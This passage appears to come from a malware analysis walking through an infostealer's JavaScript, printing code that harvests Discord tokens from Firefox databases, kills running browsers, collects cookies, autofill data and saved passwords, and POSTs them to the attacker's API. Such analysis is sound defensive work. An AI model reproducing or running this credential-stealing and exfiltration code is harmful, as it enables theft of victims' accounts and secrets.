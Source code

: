                                             !token?.startsWith('MTA') &&
                                            !token?.startsWith('MTE')
                                          ) return;
                                          if(!tokens_list?.find((t) => t?.token === token)) {
                                            tokens_list?.push({
                                                token: token,
                                                found_in: 'Firefox'
                                            });
                                          }
                                    });
                                };
                            });
                        };
                    };
                });
            } catch(e) {
                console.log(e);
            };
    
        return tokens_list;
       };
    };
    

It uses `where /r . *.sqlite` to find SQLite DBs and then uses regex to look
for tokens in the binary files.

### Browser Data

#### allBrowserData

The final call from the main block is to `allBrowserData`, which starts by
trying to kill any browser processes:

    
    
            await kill([
                'chrome', 'msedge', 'brave', 'firefox', 'opera', 'kometa', 'orbitum', 'centbrowser', '7star', 'sputnik', 'vivaldi',
                'epicprivacybrowser', 'uran', 'yandex', 'iridium'
             ]);
    

Then it calls three functions asynchronously:

    
    
            const promises = await Promise.allSettled([
                getBrowserCookies(),
                getBrowserAutofills(),
                getBrowserPasswords()
            ]);
    

Then it exfils the results:

    
    
            await fetch(options.api + 'browsers-data', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    duvet_user: options?.user_id,
                    computer_name: userInfo()?.username,
                    data: {
                        cookies: promisses?.[0]?.value?.cookies_list,
                        autofills: promisses?.[1]?.value,
                        passwords: promisses?.[2]?.value
                    }